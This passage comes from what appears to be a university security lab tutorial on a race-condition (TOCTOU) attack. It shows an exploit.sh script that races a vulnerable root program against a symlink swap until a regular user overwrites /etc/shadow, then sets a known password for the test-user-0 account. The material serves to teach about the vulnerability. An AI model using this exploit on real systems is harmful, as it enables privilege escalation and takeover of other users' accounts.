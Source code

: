 ## Login to target user account

### Task 11

`TASK :`{:.info} Login to user account `test-user-0` with password `00000`
Now you can login to `test-user-0` account with <span style="color:#f77729;"><b>password</b></span>: `00000` instead of your originally set password:

<img src="/50005-2023/assets/images/lab2/20.png"  class="center_full"/>

We have <span style="color:#f77729;"><b>successfully</b></span> changed a supposedly <span style="color:#f7007f;"><b>protected</b></span> `/etc/shadow` file while logged in as a <span style="color:#f77729;"><b>regular user</b></span> (ubuntu in the example above).

## What Happened?

Open `exploit.sh` file inside `/User/` directory:

```bash
#!/bin/sh
# exploit.sh

# note the backtick ` means assigning a command to a variable
OLDFILE=`ls -l /etc/shadow`
NEWFILE=`ls -l /etc/shadow`

# continue until THE ROOT_FILE.txt is changed
while [ "$OLDFILE" = "$NEWFILE" ]
do
    rm -f userfile.txt
    # create userfile again
    cp userfile_original.txt userfile.txt

    # the following is done simultanously
    # if a command is terminated by the control operator &, the shell executes the command in the background in a subshell.
    # the shell does not wait for the command to finish, and the return status is 0.
    # on the other hand, commands separated by a ; are executed sequentially; the shell waits for each command to terminate in turn.
    # the return status is the exit status of the last command executed.
    ../Root/vulnerable_root_prog userfile.txt test-user-0 & ./symlink userfile.txt /etc/shadow & NEWFILE=`ls -l /etc/shadow`

done

echo "SUCCESS! The root file has been changed"
```

The first two lines create a variable called `OLDFILE` and `NEWFILE`, containing the file information of `/etc/shadow`.

```
OLDFILE=`ls -l /etc/shadow`
NEWFILE=`ls -l /etc/shadow`
```
